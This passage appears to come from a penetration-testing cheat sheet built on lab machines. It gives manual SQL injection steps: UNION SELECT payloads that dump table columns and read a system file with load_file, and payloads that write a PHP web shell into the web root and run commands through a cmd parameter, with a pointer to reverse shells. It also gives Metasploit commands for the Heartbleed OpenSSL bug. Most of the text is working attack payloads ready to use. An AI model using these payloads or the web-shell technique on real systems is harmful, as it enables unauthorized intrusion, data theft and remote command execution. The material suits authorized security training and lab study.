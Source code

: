    '''

   * Note that you LIKELY have to convert the table name to ASCII Character values to make this work. char\(65,66,67\) means ABC. Useful site to do this [link](http://www.unit-conversion.info/texttools/ascii/).

3. Output the contents of columns from a table. 

   ```text
   ... UNION ALL SELECT 1,2,[column_name],4,5,6 FROM [database_name].[table of interest]
   ```

4. Note: Prepend all of the available databases from the results of step 9 above to this command INCLUDING not appending any database.  If the command works without appending any database name, then the table you're interested in is already in the currently set database of the application you're exploiting SQLi from.
5. Load File Attempt 

   ```text
   union all select 1,2,3,4,load_file("c:/windows/system32/drivers/etc/hosts"),6
   ```

6. Attempt command injection \(Vulnhub:PwnOS2\) **Make sure to include a comment field at the end of the string syntax if it was found to be necessary when fuzzing the input field at the beginning of manaul SQLi testing.**

   ```text
   union all select null,null,null,null,"<?php passthru($_GET['cmd']); ?>",null INTO DUMPFILE "[location of the web directory like /var/www/[new name].php]"
   union all select null,null,null,null,"<?php shell_exec($_GET['cmd']); ?>",null INTO OUTFILE "[location of the web directory lik /var/www/[new name].php]"
   ```

   * The first command syntax with passthru and DUMPFILE works more often than the second.
   * Then you navigate to the standard web address and append "/\[new name\].php" to the end of the address.  If it works, then the file was created successfully from command injection.  To issue a command, you just append "?cmd=\[command\]".  For example.

     ```text
     http://10.10.10.100/evil.php?cmd=id
     ```

   * You can then inject a reverse shell for a call-back.

## Heartbleed \(ippsec:Valentine\)

### Background

* OpenSSL 1.0.1 through 1.0.1f \(inclusive\) are vulnerable. 
* OpenSSL 1.0.1g is NOT vulnerable.
* OpenSSL 1.0.0 branch is NOT vulnerable.
* OpenSSL 0.9.8 branch is NOT vulnerable.

### Exploit

```text
MSF > use auxiliary/scanner/ssl/openssl_heartbleed 
MSF > set RHOSTS [IP]
MSF > set verbose true 
MSF > run
```
